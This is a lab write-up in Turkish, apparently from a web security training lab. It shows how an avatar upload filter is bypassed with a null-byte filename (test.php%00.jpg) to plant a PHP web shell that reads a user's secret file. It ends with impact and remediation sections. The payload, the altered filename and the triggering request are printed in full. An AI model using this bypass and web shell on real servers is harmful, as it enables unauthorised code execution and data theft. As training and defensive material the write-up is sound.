






# Web shell upload via obfuscated file extension

## 1. Lab Bilgisi

**Difficulty:** Practitioner

## 2. Vulnerability Özeti

Bu labda avatar upload fonksiyonu yalnızca `.jpg` ve `.png` uzantılı dosyalara izin veriyor gibi görünüyor. Doğrudan `.php` uzantılı web shell yükleme denemesi reddedildi. Ancak uygulama dosya adını işlerken null byte sonrasındaki kısmı doğru şekilde ele almadığı için `test.php%00.jpg` şeklinde obfuscate edilmiş dosya adı kabul edildi. Upload kontrolü dosya adının `.jpg` ile bittiğini düşündü, fakat dosya sunucuda `test.php` olarak kaydedildi ve PHP payload çalıştırılarak Carlos kullanıcısının secret değeri okundu.

## 3. Kullanılan Bilgiler

**Username:** `wiener`

**Password:** `peter`

**Web shell dosyası:** `test.php`

**Payload:**

```php
<?php
echo file_get_contents('/home/carlos/secret');
?>
```

**Obfuscated filename:**

```http
filename="test.php%00.jpg"
```

## 4. Exploitation Steps

1. Verilen bilgilerle uygulamaya giriş yaptım ve `/my-account` sayfasındaki avatar upload alanına geldim.



2. Dosya seçim penceresinden PHP payload içeren `test.php` dosyasını seçtim.


3. Dosyanın içinde Carlos kullanıcısının secret dosyasını okuyan PHP payload'ı vardı.

```php
<?php
echo file_get_contents('/home/carlos/secret');
?>
```


4. `test.php` dosyasını avatar olarak yüklemeyi denedim.


5. Yüklenen dosyayı çağırmak için avatar görselini yeni sekmede açmayı denedim.


6. Burp Suite üzerinde upload request ve response incelendiğinde uygulamanın yalnızca JPG ve PNG dosyalarına izin verdiği görüldü.

```text
Sorry, only JPG & PNG files are allowed
```



7. Upload request tekrar gönderilirken multipart body içindeki `filename` değeri `test.php%00.jpg` olarak değiştirildi. Bu sayede kontrol dosyayı `.jpg` uzantılı gibi gördü, ancak null byte nedeniyle sunucu dosyayı `test.php` adıyla kaydetti.

```http
filename="test.php%00.jpg"
```



8. `/files/avatars/test.php` yoluna gidildiğinde PHP payload çalıştı ve response body içinde Carlos kullanıcısının secret değeri görüntülendi.

```http
GET /files/avatars/test.php HTTP/2
```



9. Elde ettiğim secret değerini lab çözüm ekranına gönderdim.



10. Secret doğru olduğu için lab başarıyla çözüldü.



## 5. Impact

Saldırgan, dosya uzantısı kontrolünü null byte veya benzeri obfuscation teknikleriyle bypass ederek sunucuya çalıştırılabilir dosya yükleyebilir. Upload dizininde script execution açıksa bu durum remote code execution elde edilmesine, hassas dosyaların okunmasına ve uygulama sunucusunun kompromize edilmesine yol açabilir.

## 6. Remediation

Dosya adı ve uzantı kontrolleri normalize edilmiş, decode edilmiş ve güvenilir sunucu tarafı değerler üzerinden yapılmalıdır. Uygulama blacklist veya yüzeysel suffix kontrolleri yerine allowlist kullanmalı, null byte gibi kontrol karakterlerini reddetmeli, dosya adını güvenli rastgele bir değerle yeniden üretmeli ve upload edilen içeriği doğrulamalıdır. Upload dizininde script execution kapatılmalı ve yüklenen dosyalar mümkünse web root dışında saklanmalıdır.
